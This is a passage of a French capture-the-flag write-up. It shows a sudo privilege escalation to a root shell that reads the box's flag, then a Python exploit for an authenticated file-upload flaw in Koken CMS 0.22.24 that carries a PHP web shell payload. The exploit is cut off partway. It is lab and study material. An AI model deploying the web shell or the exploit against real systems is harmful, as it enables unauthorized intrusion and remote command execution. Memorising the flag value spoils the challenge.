 J'ai downloadé et uploadé bash avec le nom *defuse* et c'était bon :  

```plain
michael@doomsday:~$ sudo /home/creed/defuse -p
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
flag.txt
# cat flag.txt
IDENTITY THEFT IS NOT A JOKE! Millions of families suffer every year.
But anyways. You beat me. You are the superior being.

Dwight Schrute
Assistant Regional Manager

#FLAG8: ebadbecff2429a90287e1ed98960e3f6

  _____                  _             __  __ _  __  __ _ _ 
 |  __ \                | |           |  \/  (_)/ _|/ _| (_)
 | |  | |_   _ _ __   __| | ___ _ __  | \  / |_| |_| |_| |_ _ __  
 | |  | | | | | '_ \ / _` |/ _ \ '__| | |\/| | |  _|  _| | | '_ \ 
 | |__| | |_| | | | | (_| |  __/ |    | |  | | | | | | | | | | | |
 |_____/ \__,_|_| |_|\__,_|\___|_|    |_|  |_|_|_| |_| |_|_|_| |_|

```

Bonus
-----

Comme il n'y en avait pas j'ai codé un exploit pour la faille du Koken :  

```python
import sys 
from random import choices 
from string import ascii_lowercase 
from time import time 

import requests 
from requests.exceptions import RequestException, JSONDecodeError 

# Exploit is based on https://www.exploit-db.com/exploits/48706 
print("Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)") 
print("-- devloop.users.sf.net 2022 --") 
if len(sys.argv) < 4: 
    print(f"Usage: python {sys.argv[0]} http://target.tld/path/to/token/ email password") 
    sys.exit() 

BACKDOOR = b'<?php system($_GET["cmd"]); ?>' 
FILENAME = "".join(choices(ascii_lowercase, k=20)) + ".php" 

path = sys.argv[1] 
email = sys.argv[2] 
password = sys.argv[3] 

sess = requests.session() 
sess.headers["User-Agent"] = "Mozilla/5.0 (X11; Linux x86_64; rv:96.0) Gecko/20100101 Firefox/96.0" 
sess.headers["X-Koken-Auth"]  = "cookie" 
sess.headers["X-Requested-With"] = "XMLHttpRequest" 
sess.headers["Origin"] = path 

try: 
    response = sess.post( 
        f"{path}/api.php?/sessions", 
        data={"email": email, "password": password}, 
```